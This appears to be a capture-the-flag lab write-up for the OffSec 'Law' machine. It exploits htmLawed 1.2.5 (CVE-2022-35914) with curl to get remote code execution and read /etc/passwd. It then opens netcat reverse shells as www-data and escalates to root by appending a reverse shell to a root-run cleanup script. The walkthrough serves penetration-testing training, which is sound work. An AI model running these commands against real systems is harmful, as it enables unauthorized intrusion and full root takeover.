+++
author = "Blue Pho3nix"
title = "Law"
categories = ["offsec"]
tags = [ "Medium", "Linux", "TJNULL OSCP Prep" ]
date = 2024-04-22T07:07:07+01:00
image = "categories/offsec/offsec-edit.png"
+++


## Description

> htmLawed 1.2.5 on port 80 of this lab is vulnerable to Remote Code Execution (RCE). We can gain access to the Linux server as the user 'www-data'. We have write access to a cleanup script, which is executed by root. We can use this to escalate our privileges.

## Skills Learned

- CVE exploitation [GLPI htmlawed (CVE-2022-35914)](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/)
- Privilege escalation via cron job

# Solution

## Finding the vulnerability

`autorecon` shows ports 22 and 80 are open. 
<br>[Video timestamp 0:10](https://www.youtube.com/watch?v=LkZetyoH2xc&t=10s)

```shell
sudo $(which autorecon) 192.168.195.190
```




---

htmLawed 1.2.5 is running on port 80. 




We find the htmLawed version 1.2.5 [GLPI htmlawed (CVE-2022-35914)](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/) exploit, but it fails. <br>[Video timestamp 1:01](https://www.youtube.com/watch?v=LkZetyoH2xc&t=61s)

Expected outcome of exploit (see image below) 



Our outcome (see image below)




Run the exploit at http://192.168.195.190/vendor/htmlawed/htmlawed/htmLawedTest.php using `curl`. Still receive a 404 "Not Found" error. 

```bash
curl -s -d 'sid=foo&hhook=exec&text=cat /etc/passwd' -b 'sid=foo' http://192.168.195.190/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'

```



---

## Foothold


Run the exploit at http://192.168.195.190 instead, and it works. 
<br>We get remote code execution and read `/etc/passwd`. 
<br>[Video timestamp 2:25](https://www.youtube.com/watch?v=LkZetyoH2xc&t=145s)




---

We get a reverse shell as www-data using `nc -c bash 192.168.45.223 80` on the server and `nc -lvnp 80` on our attack machine. [Video timestamp 2:32](https://www.youtube.com/watch?v=LkZetyoH2xc&t=152s)


```bash
curl -s -d 'sid=foo&hhook=exec&text=nc -c bash 192.168.45.223 80' -b 'sid=foo' http://192.168.195.190/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'
```

```bash
nc -lvnp 80
```

---

Ugrade our shell with Python. 
<br>[Video timestamp 3:44](https://www.youtube.com/watch?v=LkZetyoH2xc&t=224s)

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
^Z

```bash
stty raw -echo;fg
```
[Enter] <br>
[Enter]

```bash
export TERM=xterm-256color
```
```bash
stty rows 67 columns 318
```



---

We find `local.txt` in `/var/www/`. 
<br>[Video timestamp 4:13](https://www.youtube.com/watch?v=LkZetyoH2xc&t=253s)

```bash
find / -name local.txt 2>/dev/null
```

```bash
cd .. 
```

```bash
ls -la
```




---

## Privilege Escalation 


We have write access to the `cleanup.sh` script in `/var/www/`.
<br>[Video timestamp 4:49](https://www.youtube.com/watch?v=LkZetyoH2xc&t=289s)


```bash
cd ../ && ls -la
```

```bash
cat cleanup.sh
```




We check `cron jobs` of root running `cleaning.sh`, but find nothing interesting.


```bash
ps aux | grep cleanup.sh
```


```bash
cat /etc/cron.d/php
```



---

[pspy](https://github.com/DominicBreuker/pspy) shows root running `cleanup.sh`.
<br>[Video timestamp 5:44](https://www.youtube.com/watch?v=LkZetyoH2xc&t=344s)

```bash
cd /tmp && wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 
```

```bash
chmod +x pspy64 && ./pspy64
```


---

We get a reverse shell as root by adding `nc -c bash 192.168.45.223 4444` to `cleanup.sh`. Then, we start a listener on our attack machine using the command `nc -lvnp 4444`. When the `cleanup.sh` file is executed as root, it triggers the `nc` command and connects to the specified IP address and port, thereby granting us access to a shell as root.
<br>[Video timestamp 6:41](https://www.youtube.com/watch?v=LkZetyoH2xc&t=401s)
```bash
echo "nc -c bash 192.168.45.223 4444" >> /var/www/cleanup.sh 
```

```bash
nc -lvnp 4444
```


